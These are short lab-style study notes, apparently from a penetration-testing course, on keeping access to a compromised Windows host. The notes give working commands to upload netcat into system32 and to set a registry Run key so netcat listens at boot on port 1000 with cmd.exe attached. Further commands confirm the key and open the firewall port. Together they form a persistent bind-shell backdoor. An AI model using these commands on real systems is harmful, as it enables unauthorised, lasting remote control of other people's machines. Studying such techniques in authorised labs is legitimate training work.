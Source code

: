 
- Now lets upload netcat from Kali Linux: - 
```bash
upload /usr/share/windows-resources/binaries/nc.exe C:\\windows\\system32
```

> 💡 [[Upload nc.exe command breakdown]] 💡

![](attachment/5c366a0470643659071a65083ca92150.png)
> 💡 Upload successful 

- Set Netcat to start at boot: ~
```bash
reg setval -k HKLM\\software\\microsoft\\windows\\currentversion\\run -v nc
-d 'C:\windows\system32\nc.exe -Ldp 1000 -e cmd.exe'
```

> 💡 [[Setting nc to startup registry command breakdown]] 💡

![](attachment/0f8411a1467cbdbedd5703f12a7d03e3.png)

- Run the first command again to see if NC was added. 
```bash
reg enumkey -k HKLM\\software\\microsoft\\windows\\currentversion\\run
```

![](attachment/67e6eb8850b086960a24ad3a58434ed0.png)

- To enable this through the compromised machines firewall, run a remote shell and type: -
```bash
netsh firewall add portopening TCP 1000 "Service Firewall" ENABLE ALL
```

> 💡 [[netsh command breakdown.]] 💡
